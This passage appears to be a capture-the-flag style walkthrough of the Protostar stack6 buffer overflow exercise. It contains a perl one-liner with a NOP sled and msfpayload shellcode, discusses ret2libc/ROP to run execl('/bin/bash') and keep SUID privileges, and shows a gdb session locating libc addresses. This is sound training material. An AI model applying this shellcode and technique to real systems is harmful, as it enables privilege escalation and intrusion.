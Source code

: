 Yep, my 100 "C"s came through fine.  I definitely have some space if I need it.  So I simply used the start of the   "C"s as my return address, added a little bit of space with a 16 byte NOP sled, and then added shellcode (generated   from msfpayload with badchars taken out).  I wasn't sure what the provided C code was doing yet, as I'm not really   a C developer, and figured I'd learn in time.  This was when I learned.

```
user@protostar:~$ perl -e 'print "A"x80 . "\xf0\xf7\xff\xbf" . "\x90"x16 . "\xdb\xc8\xd9\x74\x24\xf4\xba\x2a

\xa1\xa4\x48\x5d\x29\xc9\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a

\xe1\x03\xb5\x2c\x7b\x81\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1\x7b\x4f\xd5\x06\x29\x67\xed

\xc8\xce\x77\xc1\xaa\xa7\x19\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71\x03\x6e\x5c"' > 

/home/user/file
user@protostar:~$ ./stack6 < file
input path please: bzzzt (0xbffff7f0)
```

So the C code was actually making sure that the return address was not somewhere in the stack (starting with "\xbf").  This is problematic, since my shellcode is in the stack, specifically near 0xbffff7f0. This means I had to learn how to get around this. 

I had heard of some of the fun buzzwords listed on the Stack6 page: ret2libc, and Return-Oriented Programming.  For   some reason, I didn't make the connection between Return-Oriented Programming and the buzzword I've been seeing   everywhere, "ROP".  Call me dumb, but I didn't see it until mostly done with this.  I read a TON of sites, but some that I found useful were: 

* [Corelan](http://www.corelan.be) - These guys are geniuses. Watch some videos that corelanc0d3r gives. You'll be amazed. And he also gave us [mona.py](http://redmine.corelan.be/projects/mona), so he deserves praise.
* [Hackers Hut](http://www.win.tue.nl/~aeb/linux/hh/hh-10.html) - This page was so useful for me getting execl working.
* [IHASOMGSECURITYSKILLS](http://sickness.tor.hu) - If you're ever on freenode in #offsec, you'll often see sickn3ss there.  His linux exploitation guides are amazing

So now I knew that I was going to need to at least use ret2libc, or maybe even ROP to call 'execl("/bin/bash", "/bin/bash", 0)'. I learned after experimenting quite a bit, that you can't use 'system("/bin/bash")', because the call will lose the SUID permissions. I would get my bash shell, but it'd always have the same permissions as I already had. The next step would be to find out where in libc execl and other neccessary functions were stored in memory. 

```
user@protostar:/opt/protostar/bin$ gdb ./stack6 --quiet
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) run
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff844) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) print printf
$1 = {<text variable, no debug info>} 0xb7eddf90 <__printf>
(gdb) print execl
$2 = {<text variable, no debug info>} 0xb7f2e460 <*__GI_execl>
```
